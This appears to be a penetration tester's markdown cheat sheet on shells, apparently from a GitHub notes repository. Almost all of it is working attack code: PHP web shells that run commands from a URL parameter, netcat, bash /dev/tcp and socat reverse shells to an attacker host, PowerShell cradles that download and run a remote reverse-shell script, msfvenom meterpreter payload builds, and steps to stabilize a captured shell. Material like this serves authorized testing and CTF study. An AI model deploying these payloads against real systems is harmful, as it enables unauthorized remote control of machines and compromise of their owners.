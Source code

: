 # shells

## Web shells

- Simple web shells

```shell
<?php system($_GET['cmd']); ?>
```

```shell
<?php echo "<pre>" . shell_exec($_GET["cmd"]) . "</pre>"; ?>
```

- Infamous pentestmonkey PHP reverse shell [https://github.com/pentestmonkey/php-reverse-shell](https://github.com/pentestmonkey/php-reverse-shell)
- PHP reverse shell (windows also) [https://github.com/ivan-sincek/php-reverse-shell/blob/master/src/reverse/php_reverse_shell.php](https://github.com/ivan-sincek/php-reverse-shell/blob/master/src/reverse/php_reverse_shell.php)

## Payloads

A list of reverse shell payloads can be found at [PayloadsAllTheThings GitHub](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md). 
Common payloads include

- Netcat traditional

```
nc ip 4444 -e /bin/bash
```

- Netcat 
```
rm -f /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc ip 4444 >/tmp/f
```

- Bash TCP
```shell
bash -i >& /dev/tcp/$me/4444 0>&1
```

- Socat
```shell
# listener
socat TCP-L:4444 FILE:`tty`,raw,echo=0

# victim
socat TCP:me:4444 EXEC:"bash -li",pty,stderr,sigint,setsid,sane
```
- Powershell

```powershell
powershell -c "iex (New-Object Net.WebClient).DownloadString('http://$me:8888/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress $me -Port 4444"
```

- Powershell (staged)

```powershell
powershell (New-Object Net.WebClient).Downloadfile('http://$me:8888/Invoke-PowerShellTcp.ps1')
powershell Import-Module ./Invoke-PowerShellTcp.ps1; Invoke-PowershellTcp -Reverse -IPAddress $me -Port 4444
```

- Msfvenom

```shell
msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=$me LPORT=4444 -f elf -o rev
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=$me LPORT=4444 -f exe -o rev.exe
```

## Stabilization

- Stabilize your shell using

```shell
python3 -c 'import pty;pty.spawn("/bin/bash")'
alias ls='ls --color=auto'
alias grep='grep --color=auto'
export TERM=xterm
```

depending on Python version available.

- Set up autocomplete. Background the shell using `CTRL + Z` and run

```shell
stty raw -echo; fg
```
to foreground the shell using tab completion.


